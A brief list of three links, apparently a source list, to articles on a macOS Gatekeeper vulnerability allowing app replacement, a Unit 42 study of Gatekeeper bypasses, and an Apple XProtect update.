- [SC Media: macOS Gatekeeper vulnerability allows app replacement](https://www.scworld.com/brief/macos-gatekeeper-vulnerability-allows-app-replacement)
- [Unit 42: Gatekeeper Bypass: Uncovering Weaknesses in a macOS Security Mechanism](https://unit42.paloaltonetworks.com/gatekeeper-bypass-macos/)
- [The Eclectic Light Company: Apple has released an update to XProtect for all macOS](https://eclecticlight.co/2026/07/15/apple-has-released-an-update-to-xprotect-for-all-macos-36/)
